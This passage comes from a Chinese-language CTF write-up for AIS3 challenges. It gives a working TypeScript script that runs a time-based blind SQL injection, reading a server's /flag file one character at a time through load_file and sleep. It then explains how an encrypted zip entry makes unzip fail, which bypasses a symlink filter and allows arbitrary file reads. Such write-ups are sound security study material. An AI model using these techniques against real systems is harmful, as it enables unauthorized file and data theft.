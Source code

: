 ```typescript
async function main() {
  const result = []
  for (let i = 22; i <= 100; i++) {
    let left = '\u0000'
    let right = '\uFFFF'
    while (true) {
      const mid = String.fromCharCode(Math.floor((left.charCodeAt(0) + right.charCodeAt(0)) / 2))
      if (mid == '#' || mid == '%' || mid == '&') continue
      if (mid === '}') break
      console.log(`left: ${left.charCodeAt(0)} ${left}, right: ${right.charCodeAt(0)} ${right}, mid:${mid.charCodeAt(0)} ${mid}`)
      if (right.charCodeAt(0) - left.charCodeAt(0) == 1) {
        result.push(right.charCodeAt(0))
        break
      }
      if (isTrue(await Promise.any([fetchRaw(`and (select sleep(1) from dual where substr(load_file("/flag"),${i},1) > "${mid}")`), timeout()]))) {
        left = mid
      }
      else {
        right = mid
      }
    } console.log(result)
  } return 0
}
function fetchRaw(payload: string): Promise < Response > {
  return fetch(`http://chals1.ais3.org:11454/song?id=1 ${payload}`)
}
function isTrue(result: any) {
  return result == null
}
async function timeout() {
  return new Promise((resolve) => { setTimeout(resolve, 1500) })
}
void main()
```

輸出：`AIS3{CRYCHIC_Funeral_` 後面壞掉了，[事後](https://hackmd.io/@maple3142/rkJDrcHNA#Its-MyGO)（🍁🛐）看是一堆 Emoji 我的 Encoding 沒有處理好。

### It's MyGO!!! Part-time Worker

題目作者：[ItisCaleb](https://itiscaleb.com/)\
題目難度：Hard\
解題人數：4/328

{{<details "Source code"></details>}}

這題雖然分類上是難題但解起來不難。這題的漏洞在於 `upload` 函數會先執行 `unzip` 指令解壓縮上傳的檔案，若執行成功再過濾掉不是圖片副檔名的檔案以及 symlink。根據 [`unzip`](https://linux.die.net/man/1/unzip) 的說明文件可以發現，若在壓縮檔中有加密過的檔案但沒有指定密碼，解壓縮失敗會導致 `unzip` 的回傳值為 1，這樣就可以繞過過濾 symlink 的檢查，讀取系統上的任意檔案。
